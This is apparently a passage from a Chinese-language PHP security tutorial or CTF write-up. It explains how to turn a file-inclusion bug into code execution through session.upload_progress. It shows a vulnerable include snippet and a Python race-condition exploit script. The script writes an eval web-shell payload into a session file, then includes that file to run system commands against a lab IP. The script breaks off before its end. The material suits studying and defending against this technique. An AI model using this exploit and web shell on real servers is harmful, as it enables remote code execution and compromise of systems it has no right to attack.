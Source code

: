 
```
&lt;?php
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['session'] = $_GET['session'];
var_dump($_SESSION['session']);
?&gt;

```

> 
a:1表示$_SESSION数组中有 1 个元素，花括号里面的内容即为传入GET参数经过序列化后的值


### 利用session.upload_progress进行文件包含

> 
利用条件



```
示例代码

&lt;?php
$b = $_GET['file'];
include "$b";
?&gt;

```

> 
可以发现，存在一个文件包含漏洞，但是找不到一个可以包含的恶意文件；其实，我们可以利用session.upload_progress将恶意语句写入session文件，从而包含session文件；前提需要知道session文件的存放位置


> 
分析



```
利用脚本

import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://192.168.43.236/H3rmesk1t/test.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '&lt;?php eval($_POST["cmd"]);?&gt;'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://192.168.43.236/H3rmesk1t/test.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
            break
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
```